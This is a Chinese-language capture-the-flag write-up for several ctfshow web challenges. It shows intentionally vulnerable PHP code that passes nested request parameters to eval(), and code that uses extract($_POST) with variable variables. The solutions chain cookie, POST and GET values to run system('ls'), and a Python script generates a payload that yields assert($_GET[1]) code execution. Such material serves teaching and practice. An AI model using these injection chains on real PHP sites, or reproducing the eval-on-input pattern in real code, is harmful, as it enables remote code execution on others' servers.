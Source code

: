 [TOC]



## web

### web签到            

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

eval($_REQUEST[$_GET[$_POST[$_COOKIE['CTFshow-QQ群:']]]][6][0][7][5][8][0][9][4][4]);
```

仔细观察题目，这题就是套娃，

首先我们需要传个cookie，名为 `CTFshow-QQ群:` 但是一直不起作用，

我们需要将它进行url编码，此处值为：`a`

`$_POST[a]=b` -> `$_GET[b]=c` ->

 `$_REQUEST[c][6][0][7][5][8][0][9][4][4]=system('ls');`

注意：c应该传一个数组



### web2 c0me_t0_s1gn

源码有前一半flag，控制台有另一半





### 我的眼里只有$            

```php
<?php

error_reporting(0);
extract($_POST);
eval($$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_);
highlight_file(__FILE__);
```

这是一个php变量覆盖题，要弄好多层，自己敲很麻烦，我们应该写个python脚本

总共36个$。这里有一个`extract()` 函数：

![image-20230306112022365](https://s2.loli.net/2023/03/06/QxBaVptL1gET95M.png)

这个函数可以将此处`$_POST` 数组中的键名赋值为变量，我们只需要在post中传参即可

```python
import string

code = "assert($_GET[1]);"
s = string.ascii_letters  # 获取所有大小写英文字母

post = "_=a&"

for i in range(34):
    post += s[i] + "=" + s[i+1] + "&"

post += s[i+1] + "=" + code
print(post)

```